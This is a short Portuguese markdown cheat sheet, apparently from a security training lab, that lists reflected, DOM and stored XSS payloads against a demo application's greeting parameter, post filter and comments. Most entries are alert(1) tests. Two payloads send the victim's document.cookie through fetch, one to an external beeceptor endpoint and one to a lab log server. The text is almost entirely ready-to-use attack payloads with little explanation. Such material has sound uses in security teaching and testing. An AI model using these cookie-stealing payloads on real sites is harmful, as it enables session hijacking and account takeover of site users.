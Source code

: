- Reflected
    - /hello?nome=Teste<script>alert(1)</script> **(Precisa estar autenticado via cookie)**
- DOM
    - Filtro na listagem de POSTS
    - ?filtro=%3Cimg%20src=%22a%22%20onerror=%22alert(1)%22%20/%3E
    ```html
    <img src="a" onerror="alert(1)" />busca
    ```
    - Enviar cookie Beeceptor (Externo)
    ```sh
    yea<img src="a" onerror="fetch('https://teste-crescer-cwi.free.beeceptor.com?cookie'%2bdocument.cookie)" />
    ```
    - Enviar cookie Log Server (Local)
    ```
    <img src="a" onerror="fetch('https://log.crescer.lab?cookie='%2Bdocument.cookie)" >
    ```
- Stored
    - Comentários dos posts
    ```html
    <img src="a" onerror="alert(1)" />comentário
    ```